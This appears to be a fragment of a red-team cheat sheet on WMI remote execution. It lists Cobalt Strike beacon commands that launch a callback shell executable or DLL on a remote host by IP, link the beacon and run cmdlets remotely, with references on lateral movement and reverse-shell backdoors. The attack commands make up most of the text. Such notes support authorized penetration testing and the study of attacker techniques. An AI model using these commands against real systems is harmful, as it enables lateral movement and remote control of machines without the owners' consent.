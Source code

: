 ### 7.1 - Remote-Exec

#### 7.1.1 - Spawn Callback Shell

```
beacon> remote-exec wmi <IP> C:\path\to\shell.exe

beacon> remote-exec wmi <IP> "rundll32 C:\path\to\shell.dll"

beacon> link <IP>
```

#### 7.1.2 - Execute Commands

`beacon> remote-exec wmi <IP> <cmdlets>`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)

- [Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)

- [Lateral Movement Command Execution Win32_Server](https://www.sakshamdixit.com/lateral-movement-command-execution-win32_service/)

- [Backdoor with WMI](https://www.sakshamdixit.com/backdoor-with-wmi/)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)